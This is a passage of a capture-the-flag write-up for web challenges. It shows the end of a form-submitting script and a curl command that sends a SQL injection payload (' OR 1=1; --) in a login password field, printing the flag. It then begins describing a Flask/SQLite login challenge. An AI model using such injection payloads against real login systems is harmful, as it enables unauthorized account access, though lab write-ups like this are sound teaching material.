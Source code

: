 ```html
    form.appendChild(username);
    form.appendChild(password);

    form.setAttribute('style', 'display: none');

    document.body.appendChild(form);
    form.submit();
    });
})();
</script>
```

We can pass our injection to the server using a tool like curl to ensure our username/password does not get encoded. I found that it was easier to inject on the password instead of the username. Using the following command will print the flag url encoded:

```shell
$ curl -X POST -d "username=l33t" -d "password=' OR 1=1;  --  " https://secure.mc.ax/login
Found. Redirecting to /?message=flag%7B50m37h1n6_50m37h1n6_cl13n7_n07_600d%7D
```

We can then use a tool like [CyberChef](https://gchq.github.io/CyberChef/) to easily decode the flag.

![[../Files/secure-cyberchef.png]]

## Flag
`flag{50m37h1n6_50m37h1n6_cl13n7_n07_600d} `

***

# cool
**Category: web**
**Author: Arinerron & BrownieInMotion**

## Description
Aaron has a message for the cool kids. For support, DM BrownieInMotion.

## Solution
For this challenge, we are given another simple login screen. It also looks like we can register an account. If we register an account and log in, the following message is shown:

![[../Files/cool-login-message.png]]

This indicates that there is a user called ginkoid that we need to log in as. Trying to register a new user with this account will tell us that the username is taken, indicating that the user does exist in the database.

In addition to the website, we are also given the source code in `app.py`. By the looks of it, this is a Flask application running SQLite3 as the database. When the app is started the `init()` function is called which generates the database tables and adds the ginkoid user.
